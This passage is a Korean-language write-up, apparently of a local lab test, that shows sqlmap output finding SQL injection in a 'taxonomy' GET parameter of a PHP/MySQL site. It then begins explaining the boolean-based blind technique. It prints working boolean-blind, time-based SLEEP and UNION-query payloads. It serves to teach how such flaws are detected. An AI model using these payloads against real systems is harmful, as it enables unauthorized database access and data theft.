 ```bash

[*] starting @ 14:20:56 /2025-01-19/
```

sqlmap을 사용해 실행한 SQL 주입 테스트에서 취약점이 성공적으로 탐지되었음을 보여준다.

```bash
[14:21:41] [INFO] GET parameter 'taxonomy' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[14:21:41] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'taxonomy' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 87 HTTP(s) requests:
---
Parameter: taxonomy (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: taxonomy=-8184') OR 8534=8534 AND ('vMOi'='vMOi

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: taxonomy=category') AND (SELECT 7162 FROM (SELECT(SLEEP(5)))HjbH) AND ('BQsP'='BQsP

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: taxonomy=category') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b7671,0x55496166614547434753557456504468504d536b5870506e51504b4b634c6a674944716c626d4366,0x7178787171)-- -
---
[14:22:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.26, Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12
[14:22:11] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 8 times
[14:22:11] [INFO] fetched data logged to text files under 'C:\Users\alstn\AppData\Local\sqlmap\output\localhost'

[*] ending @ 14:22:11 /2025-01-19/
```

### **주요 정보 분석**

1. 취약한 파라미터
    - `taxonomy`라는 GET 파라미터가 SQL Injection에 취약하다는 것을 의미한다.
2. 취약점 유형 및 페이로드
    
    2-1. Boolean-based Blind
    
    - 참/거짓 조건을 활용하여 데이터베이스 응답을 분석
        
        ```sql
        taxonomy=-8184') OR 8534=8534 AND ('vMOi'='vMOi
        ```
        